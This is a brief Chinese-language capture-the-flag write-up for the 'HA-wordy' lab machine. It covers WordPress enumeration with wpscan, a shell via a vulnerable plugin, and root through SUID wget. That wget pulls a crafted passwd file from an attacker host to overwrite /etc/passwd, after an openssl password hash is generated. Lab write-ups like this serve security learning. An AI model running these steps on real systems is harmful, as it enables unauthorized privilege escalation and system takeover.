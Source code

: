 # HA-wordy  
## 简述  
使用dirb发现其中的目录文件，然后使用wpscan对其进行密码爆破   
使用了带漏洞的插件，写入文件到用户表当中    
## 进入   
``` 
wpscan --url "http://192.168.1.57/wordpress" -e vp  
```
![20191203142121.png](https://i.loli.net/2019/12/03/J5aUfj1ZdFSExmt.png)  
![20191201132639.png](https://i.loli.net/2019/12/01/IMcJaOXy5ksiYn4.png)
查找到具有wordpress的页面  
使用wpscan查询其中的数据然后 使用wpscan进行搜索其中的内容  
使用wpscan查询其中的漏洞数据（貌似需要api所以看不到漏洞只能看到使用的插件）  
![20191201142002.png](https://i.loli.net/2019/12/01/9sGgjW1MCwkhoJE.png)
顺利拿到shell  
## 提权   
发现命令  
```  
find / -perm -u=s -type f 2>/dev/null
```
之后使用带s位的命令提权
使用linux当中的命令openssl生成数据  
openssl passwd -1 -salt username password
![20191201143050.png](https://i.loli.net/2019/12/01/1lJeIA8uPidX4rR.png)
然后将这段数据写到文件当中，在靶机上采用copy下载的方式（没有s位为什么能够替换数据）  
因为在查找权限的时候发现用户对wget具有命令
```
cd /home/raj
cd /etc
wget -O passwd http://192.168.0.16:8000/passwd
```
顺利拿到权限  
![20191201143556.png](https://i.loli.net/2019/12/01/e7YKCpAP4SG8WRI.png)  
因为之前在wordpress当中没有指定api所以导致不能找漏洞   
## 总结  
利用了漏洞插件，返回了shell,利用带有s位置的特殊命令进行提权  



